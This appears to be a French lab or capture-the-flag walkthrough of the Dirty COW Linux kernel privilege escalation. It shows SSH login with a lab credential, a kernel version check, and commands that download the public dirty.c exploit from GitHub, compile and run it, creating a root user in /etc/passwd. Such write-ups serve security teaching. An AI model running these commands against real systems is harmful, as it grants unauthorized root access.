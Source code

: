 # Dirty Cow 

- Cette faille disponible sur les linux version 2.6.22 (2007) à 4.8.3 (2016) permet d'ecrire sur des fichiers accessible uniquement en lecture seule
- On se connecte a **laurie**:**330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4** en ssh
- On y regarde la version du linux pour savoir si l'exploit est compatible
```
$> uname -r

3.2.0-91-generic-pae
```
- L'exploit est compatible avec notre version de linux
- On lance l'exploit
```
curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty lol
su firefart
```
- L'exploit arrive à ecrire un nouvel utilisateur root dans `/etc/passwd`

## Source
- [Explication](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html#what-is-cow)
- [Explication Youtube](https://www.youtube.com/watch?v=kEsshExn7aE)
- [Script](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

